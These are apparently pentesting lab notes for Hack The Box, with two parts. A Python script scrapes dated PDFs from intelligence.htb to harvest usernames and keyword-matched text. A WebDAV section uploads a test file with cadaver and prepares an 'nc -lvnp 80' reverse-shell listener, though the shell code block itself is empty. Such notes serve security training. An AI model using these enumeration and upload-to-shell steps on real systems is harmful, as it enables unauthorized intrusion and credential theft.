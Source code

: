```


t = datetime.datetime(2020, 1, 1)
end = datetime.datetime(2021, 7, 4)
keywords = ['user', 'password', 'account', 'intelligence', 'htb', 'login', 'service', 'new']
users = set()
pdf_count = 0  # Counter for PDFs found

while True:
    url = t.strftime("http://intelligence.htb/documents/%Y-%m-%d-upload.pdf")
    resp = requests.get(url)
    if resp.status_code == 200:
        try:
            with io.BytesIO(resp.content) as data:
                pdf = PyPDF2.PdfReader(data)
                metadata = pdf.metadata
                if '/Creator' in metadata:
                    creator = metadata['/Creator']
                    users.add(creator)
                pdf_count += 1
                for page in pdf.pages:
                    text = page.extract_text()
                    if any([k in text.lower() for k in keywords]):
                        print(f'==={url}===\n{text}')
        except PyPDF2.utils.PdfReadError as e:
            print(f"Error reading PDF at {url}: {e}")
        except Exception as e:
            print(f"Error processing PDF at {url}: {e}")
        
    else:
        print(f"Failed to retrieve PDF at {url}. Status code: {resp.status_code}")
    
    t += datetime.timedelta(days=1)
    if t >= end:
        break

# Print users to console
print("Users found:")
for user in users:
    print(user)

# Write users to users.txt
with open('users.txt', 'w') as f:
    f.write('\n'.join(users))

print(f"Found and processed {pdf_count} PDFs.")
print("Users written to users.txt")
```

WebDav
- if nmap scan returns `http-webdav-scan` on http port:
```
cadaver http://192.168.219.122
```
- may be prompted for creds
```
put test.txt
```
- create beforehand `echo "test" > test.txt`
- navigate to hxxp://ip:port/test.txt to see if file executes
	- if so, set up listener `nc -lvnp 80` and rev shell (if windows DC and website running IIS, likely x64 system):
```
```